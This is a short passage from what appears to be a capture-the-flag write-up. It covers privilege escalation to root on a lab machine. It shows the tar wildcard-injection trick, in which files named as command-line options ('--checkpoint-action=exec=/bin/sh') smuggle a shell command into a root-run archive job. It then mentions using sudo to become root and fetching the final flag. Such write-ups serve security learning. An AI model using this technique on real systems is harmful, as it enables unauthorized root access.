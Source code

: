 - This will make www-data a member of the `sudoers` group and we will be able to run `sudo su` in a few moments.

```bash
echo "/var/www/html"  > "--checkpoint-action=exec=/bin/sh"
echo "/var/www/html"  > --checkpoint=1
```

- spawn a shell under root.

- I choose the 1st method and I was able to change to root by running `sudo su`. 

- The last flag is in `/root/root.txt`